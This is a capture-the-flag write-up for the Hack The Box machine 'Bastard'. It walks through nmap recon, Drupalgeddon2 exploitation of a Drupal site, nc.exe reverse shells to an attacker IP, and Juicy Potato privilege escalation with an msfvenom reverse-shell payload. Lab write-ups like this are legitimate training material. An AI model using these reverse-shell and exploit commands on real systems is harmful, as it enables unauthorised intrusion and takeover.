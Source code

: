 # Bastard Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA bastard 10.10.10.9 -T4``

``80/tcp    open  http    Microsoft IIS httpd 7.5``

``135/tcp   open  msrpc   Microsoft Windows RPC``

``49154/tcp open  msrpc   Microsoft Windows RPC``

# ${{\color{purple}Initial Foothold}}\ $

### I found a drupal installation :

![image](https://user-images.githubusercontent.com/123066149/222651004-4f57a881-a658-42b1-9971-eed3a3e336a9.png)

### And just after I found the version :

![image](https://user-images.githubusercontent.com/123066149/222651316-1a0c5c4c-72df-4617-a4a4-4b99ff7a49d5.png)

### After a little research on my exploit database :

![image](https://user-images.githubusercontent.com/123066149/222651599-021d5a98-9551-49a5-9dda-a5b8e4e49f2f.png)

### I used Drupalgeddon2 for the exploitation part :

https://github.com/dreadlocked/Drupalgeddon2

# ${{\color{purple}Exploitation}}\ $

### I met a problem during the execution it is necessary to install a ruby gem :

![image](https://user-images.githubusercontent.com/123066149/222652135-0d69f8e1-66bf-43a9-99b2-d1284cce2573.png)

``ruby drupalgeddon2.rb http://10.10.10.9``

![image](https://user-images.githubusercontent.com/123066149/222652407-c72044a9-a977-4103-80d7-0aa443c1b8d7.png)

![image](https://user-images.githubusercontent.com/123066149/222652670-508a49d3-2911-4db4-ad3b-932e7fc9c50a.png)

``/usr/bin/impacket-smbserver kali .``

``copy \\10.10.16.2\kali\nc.exe``

### Here I use nc to be able to execute commands because with the exploit I am blocked in the root of the web server.
### I tried powershell and cmd and it does not work with powershell.

``nc.exe 10.10.16.2 1234 -e powershell.exe``

``nc.exe 10.10.16.2 1234 -e cmd.exe``

# ${{\color{purple}Privilege Escalation}}\ $

``whoami /priv``

![image](https://user-images.githubusercontent.com/123066149/222653150-d960687b-fcc3-4815-ae6d-8fef5e7d11b8.png)

``Juicy_Potato_x86.exe -l 1337 -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}" -t * -p whoami``

![image](https://user-images.githubusercontent.com/123066149/222653070-65967f13-6367-46e0-9706-88a7f4bc4fc8.png)

``mmsfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.5 LPORT=8888 -f exe -o exploit.exe``

![image](https://user-images.githubusercontent.com/123066149/222653552-a4fc6dcc-3560-4202-a773-942dfcbf8786.png)

``Juicy_Potato_x86.exe -l 1337 -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}" -t * -p C:\inetpub\drupal-7.54\exploit.exe``

![image](https://user-images.githubusercontent.com/123066149/222653326-a6bb088c-8984-4daa-8634-75fd0e114c60.png)

# ${{\color{purple}Points of Improvement}}\ $

* if I have a problem with the execution of an exploit in rubby

``gem install xx``

![image](https://user-images.githubusercontent.com/123066149/222652135-0d69f8e1-66bf-43a9-99b2-d1284cce2573.png)

